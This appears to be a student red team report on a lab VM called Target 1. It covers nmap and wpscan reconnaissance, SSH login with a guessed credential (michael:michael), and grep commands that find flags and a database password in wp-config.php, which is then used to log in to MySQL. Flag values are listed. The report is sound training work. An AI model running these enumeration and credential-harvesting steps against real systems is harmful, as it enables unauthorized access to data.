

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.*

root@Kali:~# nmap -sV 192.168.1.*
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-19 15:43 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00075s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00078s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0010s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 27.65 seconds
root@Kali:~#

```


This scan identifies the services below as potential points of entry:
```bash
Nmap scan report for 192.168.1.110
Host is up (0.00078s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Target 1
  - ssh
  - Http 
  - Samba


The following vulnerabilities were identified on target1:

```bash
root@Kali:~# nmap --script vuln 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-19 16:02 PDT
Nmap scan report for 192.168.1.110
Host is up (0.00092s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.110
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://192.168.1.110:80/
|     Form id:
|     Form action: https://spondonit.us12.list-manage.com/subscribe/post?u=1462626880ade1ac87bd9c93a&id=92a4423d01
|
|     Path: http://192.168.1.110:80/team.html
|     Form id:
|_    Form action: https://spondonit.us12.list-manage.com/subscribe/post?u=1462626880ade1ac87bd9c93a&id=92a4423d01
|_http-dombased-xss: Could not find any DOM based XSS.
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on apache/2.4.10 (debian)
|   /img/: Potentially interesting directory w/ listing on apache/2.4.10 (debian)
|   /js/: Potentially interesting directory w/ listing on apache/2.4.10 (debian)
|   /manual/: Potentially interesting folder
|_  /vendor/: Potentially interesting directory w/ listing on apache/2.4.10 (debian)
|_http-stored-xss: Could not find any stored XSS vulnerabilities.
111/tcp open  rpcbind
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:15:5D:00:04:10 (Microsoft)

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos:
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_
```

```bash
root@Kali:~# wpscan --url 192.168.1.110/wordpress -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _  |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.8
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.110/wordpress/
[+] Started: Sat Mar 19 16:11:19 2022

Interesting Finding(s):

[+] http://192.168.1.110/wordpress/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://192.168.1.110/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://192.168.1.110/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://192.168.1.110/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8.19 identified (Latest, released on 2022-03-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: "-release.min.js?ver=4.8.19"
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: "WordPress 4.8.19"

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Mar 19 16:11:22 2022
[+] Requests Done: 48
[+] Cached Requests: 4
[+] Data Sent: 10.471 KB
[+] Data Received: 284.802 KB
[+] Memory used: 120.961 MB
[+] Elapsed time: 00:00:02
```

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

**Exploit Used**
  - Wordpress user enumeration vulnerability
    - ```bash
      [i] User(s) Identified:

      [+] steven
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

      [+] michael
      | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)
      ```
  - Poor password hygiene
      - Password same as user name - michael:michael  

  
- `flag1.txt: {b9bbcb33e11b80be759c4e844862482d}`

```bash
michael@target1:~$ grep -r "flag1" / 2>/dev/null
Binary file /proc/1804/task/1804/cmdline matches
Binary file /proc/1804/cmdline matches
/var/www/html/service.html:<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
```
  - `flag2.txt: {fc3fd58dcdad9ab23faca6e9a36e581c}`

```bash
michael@target1:~$ find / -iname *flag* 2>/dev/null
/proc/kpageflags
/proc/sys/kernel/acpi_video_flags
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag-2x.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag.png
/var/www/flag2.txt
```

  - `flag3.txt: {afc01ab56b50591e7dccf93122770cd2}`
  - `flag4.txt: {715dea6c055b9fe3337544932f2941ce}`


```bash
michael@target1:~$ grep -r "PASSWORD" /var/www/html/ 2>/dev/null
.
.
.
/var/www/html/wordpress/wp-admin/setup-config.php:      define('DB_PASSWORD', $pwd);
/var/www/html/wordpress/wp-admin/setup-config.php:                      case 'DB_PASSWORD' :
/var/www/html/wordpress/wp-config.php:define('DB_PASSWORD', 'R@v3nSecurity');
/var/www/html/wordpress/wp-config-sample.php:define('DB_PASSWORD', 'password_here');
```

```bash
cat /var/www/html/wordpress/wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
```

```bash
mysql -u root -pR@v3nSecurity
mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+

mysql> use wordpress;
mysql> show tables;

+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

mysql> select * from wp_posts;
```


